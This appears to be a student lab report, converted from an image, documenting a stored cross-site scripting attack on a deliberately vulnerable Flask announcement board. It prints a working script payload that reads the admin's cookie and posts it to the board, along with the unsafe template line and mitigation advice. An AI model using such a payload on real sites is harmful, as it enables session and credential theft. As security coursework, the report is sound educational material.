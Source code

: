 XSS Assignment Report
Title: Stored XSS Attack on Announcement Board
Author: Dayasri
Date: 20-09-2025
1. Executive Summary
This report demonstrates a stored Cross-Site Scripting (XSS) attack on a vulnerable Flask-based
announcement board. The objective is to show how malicious scripts can be injected, executed, and used to
capture sensitive information, including admin flags.
2. Environment
• Operating System: Windows 10
• Python Version: 3.11
• Framework: Flask
• Database: SQLite
• Browser: Chrome
• Containerization: Docker
3. Vulnerability Description
The announcement board accepts user-submitted HTML content without proper sanitization. This flaw
enables the execution of stored JavaScript whenever the admin accesses the announcements, leading to
potential theft of sensitive data.
4. Proof of Concept (PoC)
Injected Payload:
<script>
fetch('/add', {
method: 'POST',
body: new URLSearchParams({
author: 'attacker',
content: document.cookie
})
1
});
</script>
Vulnerable Template Line:
<li><strong>{{ post.author }}</strong>: {{ post.content | safe }}</li>
Admin Flag Retrieval Endpoint:
@app.route('/admin')
def admin():
token = request.cookies.get('admin_token')
flag_path = os.path.join('flags', 'admin_flag.txt')
if token == 'SECRET_ADMIN_TOKEN':
with open(flag_path, 'r') as f:
flag = f.read()
return render_template('admin.html', flag=flag)
return 'Unauthorized', 401
5. Evidence / Screenshots
• Screenshot 1: Submission of XSS payload.
• Screenshot 2: Captured admin flag after execution of the script.
6. Root Cause
The main issue is that the application renders user input directly in the template without sanitization,
allowing arbitrary JavaScript to execute.
7. Mitigation & Recommendations
• Remove | safe from template rendering or sanitize user input using libraries such as bleach .
• Implement Content Security Policy (CSP) headers to restrict script execution.
• Validate and escape all user inputs before rendering.
• Regularly audit code for XSS vulnerabilities.
8. Ethics & Cleanup
• This assignment and testing were conducted solely for educational purposes.
• All malicious entries were removed from the database after testing to maintain a clean environment.
End of Report
